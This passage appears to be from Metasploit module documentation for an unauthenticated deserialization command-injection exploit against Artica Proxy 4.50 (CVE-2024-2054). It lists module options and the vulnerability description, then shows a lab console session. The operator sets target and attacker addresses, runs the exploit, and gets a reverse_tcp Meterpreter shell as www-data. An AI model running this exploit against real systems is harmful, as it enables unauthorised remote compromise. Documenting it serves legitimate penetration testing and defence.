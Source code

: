```msf
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on t
                                      he local machine or 0.0.0.0 to listen on all addresses.
  SRVPORT  1981             yes       The local port to listen on.


  When TARGET is not 0:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  COMMAND  passthru         yes       Use PHP command function (Accepted: passthru, shell_exec, system, exec)

Payload information:

Description:
  A Command Injection vulnerability in Artica Proxy appliance 4.50 and below allows
  remote attackers to run arbitrary commands via unauthenticated HTTP request.
  The Artica Proxy administrative web application will deserialize arbitrary PHP objects
  supplied by unauthenticated users and subsequently enable code execution as the "www-data" user.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2024-2054
  https://attackerkb.com/topics/q1JUcEJjXZ/cve-2024-2054
  https://packetstormsecurity.com/files/177482


View the full module info with the info -d command.
```

### Target 0 - PHP native `php/meterpreter/reverse_tcp` session
```msf
msf exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > set webshell cuckoo
webshell => cuckoo
msf exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > set target 0
target => 0
msf exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > set rhosts 192.168.201.4
rhosts => 192.168.201.4
msf exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.4:9000 can be exploited.
[+] The target is vulnerable. Artica version: 4.50
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.4
[+] Deleted /usr/share/artica-postfix/wizard/cuckoo.php
[*] Meterpreter session 15 opened (192.168.201.8:4444 -> 192.168.201.4:33986) at 2024-03-15 17:46:04 +0000

meterpreter > sysinfo
Computer    : artica-applianc
OS          : Linux artica-applianc 4.19.0-24-amd64 #1 SMP Debian 4.19.282-1 (2023-04-29) x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data
meterpreter >
```
### Target 1 - Unix Command `cmd/unix/reverse_bash` session
```msf
```